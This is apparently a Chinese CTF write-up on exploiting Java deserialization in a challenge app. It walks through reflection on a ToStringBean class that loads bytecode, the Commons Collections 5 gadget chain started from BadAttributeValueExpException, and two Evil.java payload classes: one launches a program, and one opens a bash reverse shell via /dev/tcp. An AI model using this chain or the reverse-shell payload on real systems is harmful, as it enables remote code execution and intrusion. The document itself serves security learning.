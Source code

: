 >考点：
>
>- cc5 简单反序列化利用

在**IndexController**，readobject路由下可以很明显看到反序列化，看一眼lib包，其中jackson版本也是比较高，有没有可以直接打的点。

> ps:
>
> 所有题目都是12月前的比赛，当时还没有爆出log4j2的洞，并且springboot默认日志库采用logback，所以除非题目有主动调用了log4j2的api，仅仅只是引用了库的话还是安全。

**ToStringBean** 这个类需要注意

![image-20211221162730660](https://cdn.jsdelivr.net/gh/yuuuuu422/Myimages/img/2021/12/20211221162730.png)

发现这里的`toString`调用了defineClass动态加载字节码，并且后续有对象实例化操作，那么如果我们可以控制这里的ClassByte，并且找到一个反序列化readobject可以直接触发toString的点，就可以在恶意类的构造函数里写入命令，创建实例时触发达到RCE的目的。

先看后面的问题，虽然这里的ClassByte是私有属性，不过我们可以通过反射修改其权限，进而创建对象，这里写一个例子：

![image-20211221165717571](https://cdn.jsdelivr.net/gh/yuuuuu422/Myimages/img/2021/12/20211221165717.png)

Evil.java:

```java
public class Evil {
    public Evil()throws Exception {
        String command = "open -a Calculator";
        Runtime.getRuntime().exec(command);
    }
}
```

现在最后一步，就是找到反序列化中的**kick-off**  ==> 重写readobject的类，如果对cc链比较熟悉的话，cc5的入口`BadAttributeValueExpException.readObject()`正是触发了`toString()`方法。

```
        ObjectInputStream.readObject()
            BadAttributeValueExpException.readObject()
                TiedMapEntry.toString()
                    LazyMap.get()
                        ChainedTransformer.transform()
                            ConstantTransformer.transform()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Class.getMethod()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Runtime.getRuntime()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Runtime.exec()
```

![image-20211221172242670](https://cdn.jsdelivr.net/gh/yuuuuu422/Myimages/img/2021/12/20211221172242.png)

和前面一样，通过反射设置val的值为需要调用`toString()`的对象即可。

最终Poc

![image-20211221182716586](https://cdn.jsdelivr.net/gh/yuuuuu422/Myimages/img/2021/12/20211221182716.png)

这里注意一点，java的`Runtime.getRuntime().exec(command)`反弹shell需要修改写法，原因在exec的重载方法里，具体可参考

- [Java Runtime.exe() 执行命令与反弹shell](https://www.jianshu.com/p/ae3922db1f70)

```java
public class Evil {
    public Evil()throws Exception {
        String command[] = {"/bin/bash","-c","bash -i >& /dev/tcp/127.0.0.1/20022 0>&1"};
        Runtime.getRuntime().exec(command);
    }
}
```
![image-20211221182846948](https://cdn.jsdelivr.net/gh/yuuuuu422/Myimages/img/2021/12/20211221182953.png)



一点疑问：如果题目不出网，可以怎么利用呢？
